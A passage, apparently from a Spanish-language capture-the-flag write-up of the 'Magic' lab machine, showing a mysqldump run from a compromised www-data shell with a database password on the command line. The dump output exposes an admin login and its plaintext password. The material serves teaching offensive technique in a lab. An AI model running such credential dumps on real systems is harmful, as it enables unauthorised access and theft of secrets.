 Podemos enumerar las bases de datos utilizadas, y ahora usaremos `mysqldump` para dumpear las datos  almancenados en la base de datos `Magic`


```sql
www-data@ubuntu:/var/www/Magic$ mysqldump -utheseus -piamkingtheseus Magic
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2023-06-13 15:00:33
```
